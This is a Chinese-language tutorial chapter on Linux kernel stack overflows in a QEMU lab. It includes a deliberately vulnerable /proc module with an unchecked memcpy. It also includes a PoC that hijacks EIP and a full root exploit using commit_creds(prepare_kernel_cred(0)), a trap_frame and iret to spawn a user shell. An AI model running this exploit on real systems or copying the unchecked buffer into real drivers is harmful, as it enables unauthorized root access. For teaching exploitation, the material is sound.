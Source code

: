 # how2kernel————第三节stack_smashing

## Author: Wenhuo

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>无论是kernel态还是用户态都存在栈溢出，这也是漏洞中十分经典的一种。原理都是一样的，没有对缓冲区的大小进行检查，溢出覆盖至返回地址就可以劫持程序流程控制之。因为有了前两节的铺垫了理解这个应该不会难，先来看漏洞代码：</font></br>

```C
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

int bug2_write(struct file *file, const char *buf, unsigned long len)
{
    char localbuf[8];
    memcpy(localbuf, buf, len);
    return len;
}

static int __init stack_smashing_init(void)
{
    printk(KERN_ALERT "stack_smashing driver init!\n");
    create_proc_entry("bug2", 0666, 0)->write_proc = bug2_write;
    return 0;
}

static void __exit stack_smashing_exit(void)
{
    printk(KERN_ALERT "stack_smashing driver exit!\n");
}

module_init(stack_smashing_init);
module_exit(stack_smashing_exit);
```

**poc**

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <fcntl.h>

int main()
{
    char buf[24] = {0};
    memset(buf, 'A', 24);
    *((void **)(buf + 20)) = 0x42424242;
    int fd = open("/proc/bug2", O_WRONLY);
    write(fd, buf, sizeof(buf));
    return 0;
}

```



**Makefile**

```makefile
obj-m := stack_smashing.o  

KERNELDR := /home/fanda/Desktop/file/linux-2.6.32.1
BUSYDIR  := /home/fanda/Desktop/file/busybox-1.29.3/_install/mytest
PWD := $(shell pwd)  

modules:  
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules  
	gcc -o poc poc.c -static
	rm $(BUSYDIR)/*.ko
	cp *.ko $(BUSYDIR)
	cp poc $(BUSYDIR)
	cd $(BUSYDIR)/../ && find . | cpio -o --format=newc > ../rootfs.img
clean:  
	rm -rf *.o *~ core .depend .*.cmd *.ko *.mod.c .tmp_versions

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>用boot.sh启动qemu之后，直接执行poc可以发现eip最后地址为0x42424242（如果不行的话应该是开了栈保护，编辑linux kernel目录下的**.config**文件，注释掉"CONFIG\_CC\_STACKPROTECTOR=y"重新make一下就行了），偏移可以根据调试得到，函数ret末尾的汇编如下：</font></br>

```assembly
   0xc883001e <bug2_write+30>    je     bug2_write+34 <0xc8830022>
    ↓
   0xc8830022 <bug2_write+34>    add    esp, 8
   0xc8830025 <bug2_write+37>    pop    esi
   0xc8830026 <bug2_write+38>    pop    edi
   0xc8830027 <bug2_write+39>    pop    ebp
 ► 0xc8830028 <bug2_write+40>    ret    <0x8048ea2>

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以最后需要填充的大小为8（add esp,8）+4（pop esi）+4（pop edi）+4（pop ebp）=20，随后的一个4就会被ret放入eip返回，成功劫持流程。知道了如何劫持流程之后我们很轻松的用commit_creds(prepare_kernel_cred(0))提权，但难处就在于如何返回一个用户层的shell（**我们不能在kernel态直接执行用户层的代码'system("/bin/sh");'来getshell**）。这里我们就用到了ROP，ROP是栈溢出中一个非常经典的技术，在这道题中我们可以**自己编写ROP**。所以我们的步骤是：</font></br>

- 构造好**trap_frame**结构；
- 控制eip到ROP跳板指令上；
- 用ROP指令返回到用户层的system("/bin/sh")。

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>那么问题来了，trap_frame结构是什么？在Linux中，程序执行时从kernel态返回到用户态时要执行一个“iret”指令，这个指令可以理解为“ret”指令的升级版。对于“ret”指令来说，可以理解为就是一个简单的“pop eip”，而“iret”指令相当于把栈上的trap_frame结构一个一个pop给相应的寄存器，这个trap_frame结构如下表示：</font></br>

```C
struct trap_frame {
    void *eip;       // instruction pointer +0
    uint32_t cs;     // code segment +4
    uint32_t eflags; // CPU flags +8
    void *esp;       // stack pointer +12
    uint32_t ss;     // stack segment +16
} __attribute__((packed));
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这个\_\_attributu\_\_((packed))是GNU C的一大特点，这个声明了struct采用紧缩型结构，也就是不存在对齐行为。里面的变量有多大，这个struct结构体就有多大。现在我们明白了内核态的栈上有这么一个东西后就可以开始着手构造exploit了：</font></br>

- 构造trap_frame结构，设置其中的eip为system("/bin/sh")；
- 控制内核态中的eip执行提权指令后执行ROP指令
- ROP指令为设置esp为构造的trap_frame地址后用iret返回
- getshell

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以最终我们的poc如下：</font></br>

**poc**

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>

struct trap_frame {
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
}__attribute__((packed));

struct trap_frame tf;

void get_shell(void)
{
    execl("/bin/sh", "sh", NULL);
}

void init_tf_work(void)
{
    asm("pushl %cs; popl tf+4;" // set cs
        "pushfl; popl tf+8;" // set eflags
        "pushl %esp; popl tf+12;"
        "pushl %ss; popl tf+16;");
    tf.eip = &get_shell;
    tf.esp -= 1024;
}
#define KERNCALL __attribute__((regparm(3)))
void *(*prepare_kernel_cred)(void *) KERNCALL = (void *) 0xc1067b20;
void *(*commit_creds)(void *) KERNCALL = (void *) 0xc1067980;

void payload(void)
{
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf, %esp;"
        "iret;");
}

int main(void)
{
    char buf[24];
    memset(buf, 'A', 24);
    *((void **)(buf+20)) = &payload; // set eip to payload
    init_tf_work();
    int fd = open("/proc/bug2", O_WRONLY);
    // exploit
    write(fd, buf, sizeof(buf));
    return 0;
}

```

## 附录

**remote gdb**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>gdbscript稍加更改就可以用了，同样使用cat /proc/modules查看模块的基地址。提权函数的地址可以使用grep prepare_kernel_cred /proc/kallsyms得到。我的gdbscript如下：</font></br>

```shell
file /home/fanda/Desktop/file/linux-2.6.32.1/vmlinux
add-symbol-file /home/fanda/Desktop/file/busybox-1.29.3/_install/mytest/stack_smashing.ko  0xc8830000
target remote :1234
b bug2_write
c
```

**makeuser**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>创建用户，安装模块啥的用上一节的makeuser.sh就行了。</font></br>
